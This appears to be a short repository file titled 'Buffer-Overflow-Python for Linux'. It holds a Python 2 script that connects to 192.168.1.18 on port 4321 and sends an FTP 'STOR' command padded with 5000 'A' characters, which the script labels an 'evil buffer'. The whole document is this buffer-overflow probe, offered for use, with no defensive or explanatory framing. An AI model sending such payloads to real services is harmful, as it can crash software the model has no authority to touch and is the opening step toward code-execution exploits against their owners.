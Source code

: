 # Buffer-Overflow-Python
for Linux

#!/usr/bin/python
import socket
s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)

#this will send to the target ip through target port a character(\x41(A)) 5000 times
buffer = '\x41' * 5000
print "\nSending evil buffer..."
s.connect(('192.168.1.18',4321))
s.send('STOR' + buffer + '\r\n')
s.close()
